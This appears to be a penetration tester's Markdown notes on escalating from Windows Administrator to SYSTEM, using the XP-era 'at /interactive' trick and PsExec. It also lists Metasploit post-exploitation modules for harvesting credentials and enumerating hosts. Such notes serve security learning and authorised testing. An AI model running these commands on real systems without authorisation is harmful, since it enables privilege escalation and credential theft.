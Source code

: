 # Escalate to System from Admin

## On Windows XP and Older

* ff you have a GUI with a user that is included in Administrators group you first need to open up cmd.exe for the administrator
* if you open up the cmd that is in Accessories it will be opened up as a normal user
* if you rightclick and do Run as Administrator you might need to know the Administrators password, which you might not know
* instead you open up the cmd from c:\windows\system32\cmd.exe, this will give you a cmd with Administrators rights.
* from here we want to become SYSTEM user. To do this we run a command to check the local machine time

```bash
time
```

* now set the time we want the system CMD to start, probably one minuter after the time

```bash
at 01:23 /interactive cmd.exe
```

* and then the cmd with SYSTEM privs pops up.

## Vista and Newer

* first need to upload PsExec.exe and then you run

```bash
psexec -i -s cmd.exe
```

## Post Modules

* some interesting metasploit post-modules
* first you need to background the meterpreter shell and then you just run the post modules.

```bash
use exploit/windows/local/service_permissions
post/windows/gather/credentials/gpp
run post/windows/gather/credential_collector
run post/multi/recon/local_exploit_suggester
run post/windows/gather/enum_shares
run post/windows/gather/enum_snmp
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
```

